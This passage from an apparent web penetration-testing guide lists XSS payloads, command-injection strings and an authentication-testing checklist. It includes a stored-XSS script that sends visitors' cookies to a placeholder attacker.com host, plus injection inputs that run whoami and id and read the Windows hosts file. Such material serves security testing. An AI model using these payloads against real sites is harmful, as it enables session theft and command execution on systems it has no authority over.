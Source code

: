 **Manual Testing Process:**
1. Identify all input fields and parameters
2. Test each field with various payloads
3. Observe application responses and behavior
4. Confirm vulnerabilities with database queries
5. Document findings with proof of concept

#### Cross-Site Scripting (XSS)
```javascript
// Reflected XSS payloads
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>
javascript:alert('XSS')

// DOM-based XSS
#<script>alert('XSS')</script>
#<img src=x onerror=alert(document.cookie)>

// Stored XSS in comments/profiles
<script>
  var img = new Image();
  img.src = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>
```

#### Command Injection
```bash
# Basic command injection
; ls -la
| whoami
& ping -c 4 127.0.0.1
`id`
$(whoami)

# Windows commands
; dir
& ipconfig
| type C:\windows\system32\drivers\etc\hosts
```

### Authentication Testing

#### Brute Force Protection
```python
# Manual brute force testing approach
1. Attempt multiple failed logins
2. Check for account lockout mechanisms  
3. Test rate limiting effectiveness
4. Verify CAPTCHA implementation
5. Test password reset functionality
```
